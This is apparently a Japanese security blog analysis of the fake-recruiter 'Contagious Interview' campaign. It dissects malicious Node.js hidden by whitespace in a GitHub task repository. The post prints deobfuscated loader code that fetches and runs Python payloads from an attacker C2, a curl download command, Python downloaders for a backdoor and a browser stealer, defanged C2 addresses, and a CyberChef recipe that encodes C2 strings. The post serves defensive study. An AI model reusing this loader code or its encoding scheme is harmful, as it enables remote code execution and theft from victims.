




# 偽求人による攻撃キャンペーン

## 概要

ITエンジニア向けに偽求人や偽副業を使った攻撃キャンペーンが数年前から行われています。  
これらの攻撃活動は、DreamJobやContagious Interviewなどと呼称されています。  
攻撃目的は元々は諜報でしたが、最近は仮想通貨を狙った金銭的利益が主であると思います。

この攻撃に使われていると思われるリポジトリが以下の通りTwitterで流れてきました。
- https://x.com/malwrhunterteam/status/1844116463017406835

この手の攻撃活動はとても興味深く見ていたので、この機によく見てみることにしました。

これらの攻撃活動について、参考になるサイトを最後にはっておきます。

## 攻撃全体

まず、攻撃活動はLinkedInや求人紹介用のプラットフォームなどを使って被害者にコンタクトします。  
そのうえで、攻撃者は面接において技術レベルを図るために、テクニカルタスクを出します。このタスクで出された中にマルウェアが仕込まれており、タスクをこなすつもりで実際にはマルウェアに感染している、という攻撃です。  

今回見つかった以下のリポジトリ（及び後述しますが、他の類似リポジトリ）は全て悪性コードが実際に埋め込まれている状態です。  
- https://github.com/labs-web3-org/CryptoView

しかし、PYPI(Pythonのパッケージ管理システム)やNPM(NodeJSのパッケージ管理システム)に悪性のライブラリをアップロードするやり方もあります。  

### テクニカルタスクについて

以下の中にテクニカルタスクがあります。  

https://github.com/labs-web3-org/CryptoView/blob/main/exams

内容は、Webへの認証機能の追加や、ブロックチェーン関連の機能追加ですね。  
このリポジトリは仮想通貨の取引関連で使うものになっていますので、ブロックチェーン関連のタスクが出るのは自然です。  
ちなみにこの攻撃は仮想通貨関連を特にターゲットにしています。そのため、リポジトリが仮想通貨系を偽装するのは想定通りですね。

### コード内容

では、発見されたリポジトリベースで少し見ていきます。  
まず、悪性コードは以下のファイルに入っていました。
- https://github.com/labs-web3-org/CryptoView/blob/main/server/controllers/workoutController.js

この中を見ると、以下の様に大量のスペースを挟んで悪性コードを隠すようになっていました。  



これは折り返しをするようにしているため、すぐわかりますが、GitHubのデフォルトでは表示領域で折り返さないため、この場合はかなりわかりづらいです。  



さて、ではこの悪性コードの内容を見ていきましょう。

#### 悪性コード(NodeJS)の内容

まず、このコードの難読化は結構簡単です。基本的にはbase64とbase64を少しカスタマイズしたものを使っているだけです。  
以下2つの関数が定義されており、これが使われています。  

- 最初の1文字を消してbase64デコード
```javascript
// t = base64, C = utf8
$=a=>(
    s1=a.slice(1)
    Buffer.from(s1,t).toString(c)
)
```

- base64デコードのみ
```javascript
const e=a=>Buffer.from(a,t).toString(c)
```

これを使ってコードを簡単に難読化しています。正直、かなり単純ですね。  
さて、内容を見ていきましょう。とは言え全部見るのはとても長いので、必要な部分だけ少し見ていきます。  
まず外部アクセスには`request`を使っています。  

```javascript
rq=require($("YcmVxd"+"WVzdA"))
// $()"YcmVxd"+"WVzdA") -> request
```

次に、以下の`l`という関数を使ってC2のURLを取得しています。  
```javascript
l=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  ";for(var c="",a="",r="",$="",n=0;n<10;n++)c+=t[n],a+=t[10+n],r+=t[20+n],$+=t[30+n];return c=c+r+$,e(a)+e(c)}
```

これを実行すると、`MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=`の文字列からC2情報が取得されます。この場合は以下でした。  
- hxxp[://]147[.]124[.]214[.]129:1244

このエンコードもbase64をメインとしたかなり単純なものです。「C2の検出」でまた触れます。

最終的にこのC2へのアクセスをする個所は以下です。`ht`の関数を実行すると外部通信が始まります。実際に外部通信する個所は`nt`関数ですね。  

- 最終的な実行箇所
```javascript
const ht=async()=>{
    try{
        n=Date.now(),await M(),nt()
    }catch(t){}
};
ht();
let ot=setInterval((()=>{(st+=1)<5?ht():clearInterval(ot)}),6e5);
```

- 外部通信をする個所の内容
```javascript
// pl=r[$("YcGxhdGZvcm0")]()
// r=require("os"), YcGxhdGZvcm0 -> platform
pl=os["platform"]()
nt=async()=>await new Promise(((t,c)=>{
	if("w"!=pl[0])(()=>{  // window or not
		const t=l(),c=e(u),r=e(i),$=e(o),n=e(Z),s=e("cHl0aG9u"),y=`${t}${c}/${h}`,d=`${hd}${n}`; // y is URL, d is download destination
		let b=`${s}3 "${d}"`;
		rq[$](y,((t,c,$)=>{t||(a[r](d,$),ex(b,((t,c,a)=>{})))})) // rq is request module
	})();
	else{
		p(`${`${hd}${e(y+d)}`}`)?(()=>{const t=l(),c=e(u),r=e(o),$=e(i),n=e(Z),s=`${t}${c}/${h}`,b=`${hd}${n}`,m=`"${hd}${e(y+d)}" "${b}"`;
		try{K(b)}catch(t){}rq[r](s,((t,c,r)=>{if(!t)try{a[$](b,r),ex(m,((t,c,a)=>{}))}catch(t){}}))})():rt()
	}
}));
```

これらを通して、以下のURLにアクセスしてpythonをダウンロードします。
- hxxp[://]147[.]124[.]214[.]129:1244/s2PoOA8 にGETでアクセス
- アクセス結果を、{対象ユーザのHOMEDIR}/.npl
- ダウンロードしたファイルをpython3で実行

ここでダウンロードしたpython以外にpythonバイナリ自体をcmd.exeを経由してダウンロードする処理もあります。  

```cmd
C:\Windows\system32\cmd.exe /d /s /c "curl -Lo "C:\Users\ADMINI~1\AppData\Local\Temp\2\p.zi" "hxxp[://]147[.]124[.]214[.]129:1244/pdown""
```


さて、ダウンロードされたpythonでどんな動きがあるか見てみたいと思います。  

#### 悪性pythonコード

悪性のpythonコードは、以下2つのURLからそれぞれ悪性pythonコードをダウンロードして実行します。

1. hxxp[://]147[.]124[.]214[.]129:1244/brow/s2PoOA8
   1. こちらはブラウザから情報窃取するための専用コード
2. hxxp[://]147[.]124[.]214[.]129:1244/payload/s2PoOA8
   1. こちらは多機能なバックドア

- No1: バックドアをダウンロードするコード
```python
ap = pd + "/pay"
def download_payload():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass

    try:
        aa = requests.get(host2+"/payload/"+sType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
```

- No2: ブラウザから情報窃取するコード
```python
 ap = pd + "/bow"
 def download_browse():
     if os.path.exists(ap):
         try:os.remove(ap)
         except OSError:return True
     try:
         if not os.path.exists(pd):os.makedirs(pd)
     except:pass
     try:
         aa=requests.get(host2+"/brow/"+sType, allow_redirects=True)
         with open(ap, 'wb') as f:f.write(aa.content)
         return True
     except Exception as e:return False
 res=download_browse()
 if res:
     if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
     else:subprocess.Popen([sys.executable, ap])
```

#### ダウンロードしたコードを実行するまで

まず、多機能バックドア(No1)は、ダウンロードしたコードがzlibで多段階で圧縮されています。  
そのため、何度か解凍を回すと、悪性コードが取得できます。  
ブラウザから情報窃取するコードは、Zlibは掛けられていませんでした。

最終的なペイロードはどちらも特に難読化もされておらず、若干ですがコメントなども存在してました。  

### C2の検出

この悪性コードの埋め込みで、C2情報を取得する箇所は以下です。  

```javascript
l=()=>{ let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  "; for(var c="",a="",r="",$="",n=0;n<10;n++)c+=t[n],a+=t[10+n],r+=t[20+n],$+=t[30+n]; return c=c+r+$,e(a)+e(c) }
```
ここにある、`let t`がC2です。このエンコードの仕方は他の埋め込み悪性コードでも多くの場合使われていました。  
ちなみに内容は少し見やすくすると以下です。最初の10文字目から19文字目までだけ別文字列としてbase64デコードして文字列結合する形です。  

```javascript
l=()=>{
    let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  ";
    for(var p01s="",p10s="",p20s="",p30s="",n=0; n<10; n++){
        p01s+=t[n]    // 00-09
        p10s+=t[10+n] // 10-19
        p20s+=t[20+n] // 20-29
        p30s+=t[30+n] // 30-39
    }
    p01s=p01s+p20s+p30s
    return b64decode(p10s)+b64decode(p01s)
}
```

デコードする方法を以下の通り、CyberChefレシピにしました。
以下の様にデコードできます。  

- Note: [CyberChefレシピ - デコード](https://gchq.github.io/CyberChef/#recipe=Register('%5E(.%7B10%7D)(.%7B10%7D)(.%7B10%7D)',true,false,false)Find_/_Replace(%7B'option':'Regex','string':'%5E.%7B20%7D'%7D,'$R0',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)Register('(%5B%5C%5Cs%5C%5CS%5D*)',true,false,false)Find_/_Replace(%7B'option':'Regex','string':'%5E.*$'%7D,'$R1',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)Find_/_Replace(%7B'option':'Regex','string':'$'%7D,'$R3',true,false,true,false)&ieol=CRLF)

また、エンコードする方法も以下の通りCyberChefレシピにしました。  

- Note: [CyberChefレシピ - エンコード](https://gchq.github.io/CyberChef/#recipe=Register('%5E(https?://)(.*)$',true,false,false)Find_/_Replace(%7B'option':'Regex','string':'%5E.*$'%7D,'$R1',true,false,true,false)To_Base64('A-Za-z0-9%2B/%3D')Register('%5E(.%7B10%7D)(.*)$',true,false,false)Find_/_Replace(%7B'option':'Regex','string':'%5E.*$'%7D,'$R0',true,false,true,false)To_Base64('A-Za-z0-9%2B/%3D')Register('%5E(.%7B10%7D)',true,false,false)Find_/_Replace(%7B'option':'Regex','string':'%5E.*$'%7D,'$R2%20$R4%20$R3',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%5C%5Cs%2B'%7D,'',true,false,true,false))

この攻撃者はLazarusといわれていますが、Lazarusが使うC2を使って探すなりはありかもしれません。  

#### 発見したC2

複数のリポジトリを確認した結果、以下のC2を見つけました。  

- online
    - hxxp[://]147[.]124[.]214[.]129:1244
    - hxxp[://]147[.]124[.]214[.]131:1244
    - hxxp[://]147[.]124[.]214[.]237:1244
    - hxxp[://]45[.]140[.]147[.]208:54321
- offline
    - hxxp[://]67[.]203[.]7[.]171:1244
    - hxxp[://]91[.]92[.]120[.]135:3000

## 結論

副業関連は多くの人がチャレンジしています。  
また、仮想通貨関連は投資で触る人も多いと思います。その中でこのような攻撃活動があることは大きな脅威です。  

こういった攻撃について、一番シンプルな方法は、実行環境を通常利用のパソコンと分離することです。  
VirtualBoxなどの仮想マシンを使うか、AWSなどを使うか。いずれにせよ万が一を考えたしっかり備えましょう。  

## 参考サイト
- [Contagious Interview: DPRK Threat Actors Lure Tech Industry Job Seekers to Install New Variants of BeaverTail and InvisibleFerret Malware](https://unit42.paloaltonetworks.com/north-korean-threat-actors-lure-tech-job-seekers-as-fake-recruiters/)
- [Moonstone Sleet emerges as new North Korean threat actor with new bag of tricks](https://www.microsoft.com/en-us/security/blog/2024/05/28/moonstone-sleet-emerges-as-new-north-korean-threat-actor-with-new-bag-of-tricks/)
- [Operation Dream Job](https://attack.mitre.org/campaigns/C0022/)
